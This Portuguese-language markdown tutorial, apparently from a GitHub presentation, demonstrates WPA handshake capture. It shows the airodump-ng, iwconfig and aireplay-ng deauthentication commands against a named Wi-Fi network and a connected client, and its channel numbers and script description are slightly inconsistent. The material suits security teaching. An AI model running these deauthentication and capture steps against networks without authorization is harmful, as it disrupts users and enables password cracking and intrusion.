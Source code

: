 
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeIKAlM6pPPI-0u1ZtDopjsyk0AvFGd1J6cm13JPztIzuN7n_3S-duxVtaEezPMnAOO54M6HhPq21Pdw9r_rAkOHj-CSTd8FCMbnNyUEhsDo4KLdBsESuBY2lQsF-K2QfD6rYWKC24QCc4tD2xHLHomb1w?key=qibF_DzbWbmVB-P_9nKHwQ)

  
### Monitorar as redes para selecionar o alvo
O comando `airodump-ng wlan0` monitora as redes Wi-Fi

**informações do alvo:**
**essid** = “baby yoda comunista”
bssid = “40:EE:DD:39:C7:E8”

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfUU7HOsYx5vcGvgmrbfwblMLBcbWryIDhalr3jKbQtiKpWnYWCRJGG2DUB_lZSJA1KKhaU-4t-0N5IzjBSZNlRpCG8PdKsFPwobyIr4RUJHHtXhPafG87tNWvS6oEINSCV1J56qMr3fPmyN3n_2--9gBYj?key=qibF_DzbWbmVB-P_9nKHwQ)

### Trocar o canal da placa para o mesmo canal da rede alvo
1. `ifconfig wlan0 down`  - derruba a placa para fazermos as modificações
2. `iwconfig wlan0 channel 6` - troca o canal da placa para a mesma da rede alvo
3. `ifconfig wlan0 up` - sobe a placa após fazermos as modificações
4. `iwlist wlan0 channel` - mostra todos os canais da placa e o canal atual da placa

No github dessa apresentação tem um script em python para automatizar os passos acima
https://github.com/jhaysonj/projeto-NM/blob/main/wifi.sh
  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcf4izSSncCF8fqk42BYH-Tk3JYyhgV6u9Eh-PwPVeHYMzvFPy1Qqqdjjt4qIxDJFm-2CqlQBo4JLGEvQLzl6_o1Cl_uDyqhyNLHNRhOsd0UtTzkNu-ErWgKYB9ztSAFRIM_82_RRq4dIQ8zrA90jKcT3sP?key=qibF_DzbWbmVB-P_9nKHwQ)
### Monitorar a rede alvo 
o comando `airodump-ng wlan0 --bssid 40:EE:DD:39:C7:E8 --channel 8 -w wpa_baby_yoda` monitora a rede e salva as informações monitoradas em arquivos de nome “wpa_baby_yoda”

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdKVNbIvhqF6AedjJQJtdufAbbkWbJ-iNvmJ28CUDNwLhTQCVXmztwZBa47Oi03XVCi0P3yi4Z3r8COI5lZ-L5WwOdM7u4qyJfqYDmYTrHZOqlUflh9Lxl-iq7s85Vpj2c7fA1W7doR9mTJ8-Xna9TFcnoz?key=qibF_DzbWbmVB-P_9nKHwQ)

Todos os endereços macs das “STATION” são dispositivos conectados à rede

**Arquivos gerados**
  
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXez_tqZ_Yu6YW1X-U79RRgkn_eJFt2Uaxg-upn9iGrC64ya0_1tzMG4udhR_TF3d94KAi9R32aUuMXXlde8B4Usc_mrOw0T-_Gw2CqRnVlt4DuIOKUizVzcCTWXwwPms5Az4eyPnrVizonPuzF7j2O4pwrW?key=qibF_DzbWbmVB-P_9nKHwQ)

  
### Captura de handshake
O handshake é feito toda vez que um dispositivo se conecta à rede, podemos simplesmente esperar um dispositivo se conectar.
   
Para facilitar o processo de captura de handshake, utilizaremos um ataque chamado ataque de desautenticação, onde forçamos a desconexão do dispositivo, para que o alvo se reconecte e assim capturamos o handshake.

O comando `aireplay-ng -0 10 -a 40:EE:DD:39:C7:E8 wlan0 -c 64:A2:00:0D:04:0E` envia pacotes que desautenticam o dispositivo.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeFeWwJmOArfq3_dEh0nPyBSe9j8E7emRf4IesthqgBOlk9Ii1TpRLNldqo8VYUp8UuO62L1OVfz9NR9byRctgmPzvI_Ep_sW7IbrErjFs29-RPjpiNqqXtsbX-5Gv7oIRcOyS3duYeEyvcJaC8XhVWpDUY?key=qibF_DzbWbmVB-P_9nKHwQ)

**Capturamos o handshake**    

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeb-X4i1A48S2euhMqCFwB4HA-UGuRdH-sw1XVSQwH2Crcpg5o1RPRcjPC40bFvHDCfreZacnsPTYVjdgoVP8cKWdXHNM0IpKX5miWwmku4vSlWGGTkJNy-2C_TGPESFD08rg7N58Nd08zfI-YC__9UoSNE?key=qibF_DzbWbmVB-P_9nKHwQ)
